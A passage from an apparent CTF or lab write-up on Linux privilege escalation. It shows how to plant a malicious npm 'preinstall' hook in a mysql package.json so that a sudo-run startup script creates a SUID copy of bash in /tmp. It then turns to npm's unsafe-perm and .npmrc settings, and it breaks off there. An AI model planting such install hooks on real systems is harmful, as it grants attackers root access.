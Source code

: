 ```bash
> cp /opt/app/node_modules/mysql/package.json ~/package.json 
> rm /opt/app/node_modules/mysql/package.json 
```

now we can edit `~/package.json` to include a preinstall script and move it back

```bash
> vi ~/package.json


...SNIP


  "scripts": {
    "lint": "eslint . && node tool/lint-readme.js",
    "test": "node test/run.js",
    "test-ci": "node tool/install-nyc.js --nyc-optional --reporter=text -- npm test",
    "test-cov": "node tool/install-nyc.js --reporter=html --reporter=text -- npm test",
    "version": "node tool/version-changes.js && git add Changes.md",
    
    "preinstall":"cp /bin/bash /tmp/sbash && chmod +s /tmp/sbash"
    
  },
  "version": "2.18.1"
}



```

`cp /bin/bash /tmp/sbash && chmod +s /tmp/sbash` - this command when run and root will give us a SUID copy of `/bin/bash` accessible from `/tmp`

now to move our modified `package.json` back and run the startup script again
```
> cp ~/package.json /opt/app/node_modules/mysql/package.json
> sudo /opt/app/startup.sh
```

[![](/assets/image/attachments/Pasted&#32;image&#32;2020220529233348.png)](/assets/image/attachments/Pasted&#32;image&#32;2020220529233348.png){:.glightbox}

with some research we come across https://stackoverflow.com/questions/18136746/npm-install-failed-with-cannot-run-in-wd

we discover that we need the unsafe-perm configuration set to true.

we cannot change the npm install commands in the script to add the `--unsafe-perm=true` argument, but we can maybe set it elsewhere

running `npm config ls`

[![](/assets/image/attachments/Pasted&#32;image&#32;2020220529234432.png)](/assets/image/attachments/Pasted&#32;image&#32;2020220529234432.png){:.glightbox}

with some more googling I find unsafe-perm may be set in .npmrc file

